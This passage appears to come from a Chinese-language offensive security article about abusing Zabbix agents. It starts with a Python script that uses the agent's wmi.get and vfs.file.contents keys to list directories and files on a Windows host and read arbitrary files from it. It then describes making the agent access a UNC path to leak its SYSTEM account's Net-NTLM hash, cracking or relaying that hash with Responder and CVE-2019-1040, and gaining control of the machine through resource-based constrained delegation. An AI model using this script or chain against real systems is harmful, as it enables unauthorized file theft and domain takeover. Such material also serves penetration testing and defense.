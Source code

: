 ```plain
        check_dir = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Caption FROM Win32_Directory WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")
        if check_dir:
            print(check_dir)
            where = where + "AND Caption != '" + getpath(check_dir) + "'"
        else:
            break

def GetFiles(ip, dir):
    drive = dir[0:2]
    path = dir[2:]

    where = ""
    while(True):
        check_file = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM CIM_DataFile WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")
        if check_file:
            if "Invalid item key format" in check_file:
                continue
            print(check_file)
            where = where + "AND Name != '" + getpath(check_file) + "'"
        else:
            break

def Readfile(ip, file):
    read = zabbix_exec(ip, "vfs.file.contents[" + file + "]")
    print(read)

if __name__ == "__main__":
    if len(sys.argv) == 2:
        GetDisk(sys.argv[1])
    elif sys.argv[2][-1] != "\\":
        Readfile(sys.argv[1], sys.argv[2])
    else:
        GetDirs(sys.argv[1],sys.argv[2])
        GetFiles(sys.argv[1],sys.argv[2])
    
    print("Request count: " + str(count))
```

### 5\. Windows UNC 路径利用

在 Windows Zabbix Agent 环境中，可以利用 `vfs.file.contents` 命令读取 UNC 路径，窃取 Zabbix Agent 机器的 Net-NTLM hash，从而进一步 Net-NTLM relay 攻击。

Window Zabbix Agent 默认安装成 Windows 服务，运行在 SYSTEM 权限下。在工作组环境中，system 用户的 Net-NTLM hash 为空，所以工作组环境无法利用。

在域内环境中，SYSTEM 用户即机器用户，如果是 Net-NTLM v1 的情况下，可以利用 Responder 工具获取 Net-NTLM v1 hash 并通过算法缺陷解密拿到 NTLM hash，配合资源约束委派获取域内机器用户权限，从而拿下 Agent 机器权限。

也可以配合 CVE-2019-1040 漏洞，relay 到 ldap 上配置基于资源的约束委派进而拿下 Agent 机器权限。
